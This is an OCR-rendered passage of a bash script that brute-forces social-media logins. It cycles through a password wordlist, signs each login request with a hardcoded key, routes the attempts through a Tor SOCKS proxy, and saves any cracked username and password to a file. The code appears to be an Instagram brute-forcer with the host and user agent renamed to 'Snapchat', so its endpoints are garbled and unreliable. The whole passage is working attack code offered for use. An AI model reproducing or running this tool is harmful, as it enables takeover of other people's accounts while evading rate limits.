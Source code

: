 header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

let counter2++

printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass

{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9052 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$ ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  ; elif [[ $var == "Please wait" ]]; then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid2=$! ; # wait $!;

let startline+=20
let endline+=20

done
}

bf3resume() {

while [ $counter3 -lt $turn ]; do
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
IFS=$'\n'
startresume=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1) 
startresume1=$((startresume+1))
IFS=$'\n'
for pass in $(sed -n ''$startresume1','$(($token+endline))'p' $wl_pass); do

header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
